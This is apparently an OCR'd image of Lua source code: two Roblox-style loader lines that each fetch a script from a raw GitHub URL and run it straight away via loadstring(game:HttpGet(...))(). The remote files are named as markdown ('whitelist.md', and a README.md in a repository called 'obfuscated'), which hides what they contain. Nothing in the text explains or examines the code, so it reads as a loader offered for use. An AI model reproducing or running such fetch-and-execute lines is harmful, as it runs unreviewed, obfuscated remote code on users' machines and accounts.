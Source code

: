 loadstring(game:HttpGet("https://raw.githubusercontent.com/3kizy/sdafads/main/whitelist.md"))()
loadstring(game:HttpGet("https://raw.githubusercontent.com/3kizy/obfuscated/main/README.md"))()
